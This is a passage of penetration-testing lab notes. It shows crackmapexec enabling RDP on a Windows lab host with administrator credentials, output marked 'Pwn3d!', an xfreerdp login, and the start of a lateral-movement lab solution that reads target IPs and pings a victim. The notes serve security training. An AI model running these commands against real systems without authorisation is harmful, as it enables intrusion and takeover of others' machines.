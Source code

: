 `crackmapexec smb 10.4.23.124 -u administrator -p 'sebastian' --local-auth -M rdp -o ACTION=enable`:
```
[-] Failed loading module at /usr/lib/python3/dist-packages/cme/modules/slinky.py: No module named 'pylnk3'
SMB         10.4.23.124     445    EC2AMAZ-408S766  [*] Windows 10.0 Build 14393 (name:EC2AMAZ-408S766) (domain:EC2AMAZ-408S766) (signing:False) (SMBv1:False)
SMB         10.4.23.124     445    EC2AMAZ-408S766  [+] EC2AMAZ-408S766\administrator:sebastian (Pwn3d!)
RDP         10.4.23.124     445    EC2AMAZ-408S766  [+] RDP enabled successfully ←
```

_Connect to the target machine using RDP to finalize control over the system._

`xfreerdp /u:administrator /p:sebastian /v:10.4.23.124`

### Windows Lateral Movement via RDP - Lab

#### Lab Environment

A Kali GUI machine and a target machine running a vulnerable application are provided to you. The IP address of the target machine is provided in a text file named target placed on the Desktop of the Kali machine (`/root/Desktop/target`). 

Your task is to fingerprint the application using the tools available on the Kali machine and exploit it using the appropriate Metasploit module. Then, discover the [RDCMan](https://docs.microsoft.com/en-us/sysinternals/downloads/rdcman) config file and decrypt the second target machine credentials.

**Objective**: Exploit the application and gain the Meterpreter session and find the flag.

#### Lab Solution

<span style="color: #e57373;">**Attacker machine**</span>.

_Read the IP addresses of the victim machines from the provided target file to identify the machines you need to interact with._

`cat /root/Desktop/target`:
```
Victim Machine 1 : 10.4.23.63 ←
Victim Machine 2 : 10.4.23.154 ←
```

_Ping Victim Machine 1 to verify its availability and connectivity from the attacker machine._

`ping -c 3 10.4.23.63`:
```
PING 10.4.23.63 (10.4.23.63) 56(84) bytes of data.
64 bytes from 10.4.23.63: icmp_seq=1 ttl=125 time=9.76 ms
64 bytes from 10.4.23.63: icmp_seq=2 ttl=125 time=9.31 ms
64 bytes from 10.4.23.63: icmp_seq=3 ttl=125 time=9.98 ms

--- 10.4.23.63 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2003ms ←
rtt min/avg/max/mdev = 9.310/9.682/9.978/0.278 ms
```
